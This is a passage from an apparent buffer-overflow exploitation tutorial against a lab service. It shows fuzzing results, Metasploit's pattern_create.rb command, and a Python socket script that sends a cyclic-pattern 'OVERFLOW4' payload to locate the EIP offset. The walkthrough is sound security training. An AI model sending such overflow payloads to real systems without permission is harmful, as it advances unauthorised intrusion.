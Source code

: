 We execute it and get:


![Fuzzing the length of the buffer.](/images/binexp-corner-1/bof2.png)

We can see it breaks at around 2100 characters. Great, we have an approximation of what the offset to the return address, but if we want to know exactly where it is so we can overwrite it.

### Finding the Offset and Overwriting EIP

We'll use a Cyclic Pattern which is a known sequence of characters in a specific order which will help us identify the offset until we hit the return address. 

Metasploit has a tool for exactly this purpose, we'll create a payload a bit bigger than 2100 just to make sure we hit the return address.

`/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2300`

We alter our script to use this.

```python
import socket, sys

ip = "<target-ip>"
port = 1337
timeout = 20

payload = "<cyclic pattern>"

try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.settimeout(timeout)
    connect = s.connect((ip, port))
    s.recv(1024)
    print("Attempting a string of length = %s" % len(payload))
    s.send("OVERFLOW4 " + payload + "\r\n")
    s.recv(1024)
    s.close()
except:
    print("Could not connect to " + ip + ":" + str(port))
    sys.exit(0)

```
